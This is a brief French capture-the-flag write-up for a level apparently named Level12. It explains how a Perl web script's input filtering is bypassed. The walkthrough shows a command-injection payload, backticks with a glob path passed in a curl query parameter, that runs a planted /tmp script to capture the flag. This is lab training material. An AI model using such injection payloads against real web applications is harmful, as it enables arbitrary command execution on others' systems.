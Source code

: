 # Level12

---

- Nous avons un script perl dans le home.

- En analysant le regex, on observe que le parametre seras mis en majuscules et tout les characteres suivant le premier espace (inclus) serons supprimer.

- La string transformee passe ensuite dans un egrep que l'on vas par la suite exploiter.

- Nous devons ensuite creer un script dans le /tmp/SCRIPT:
```bash
#!/bin/bash
getflag > /tmp/flag
```

```bash
chmod +x /tmp/SCRIPT
```


- On execute la commande: 

```bash
curl localhost:4646?x='`/*/SCRIPT`'
```

- Puis on lis le ficher /tmp/flag.
